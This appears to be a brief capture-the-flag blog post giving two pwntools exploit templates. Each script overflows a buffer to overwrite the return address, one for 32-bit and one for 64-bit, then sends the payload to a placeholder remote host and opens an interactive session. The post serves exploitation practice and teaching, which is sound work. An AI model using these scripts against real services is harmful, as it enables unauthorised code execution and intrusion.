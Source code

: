```yaml
---
title: bof
author: janger
date: 2023-09-25
category: pwnables
layout: post
---
```




**pwntools for Return Address Overwrite(x32)**

```python3
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 4
ret = p32(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
```

<br>

**pwntools for Return Address Overwrite(x64)**

```python3
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 8
ret = p64(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
```

<br>


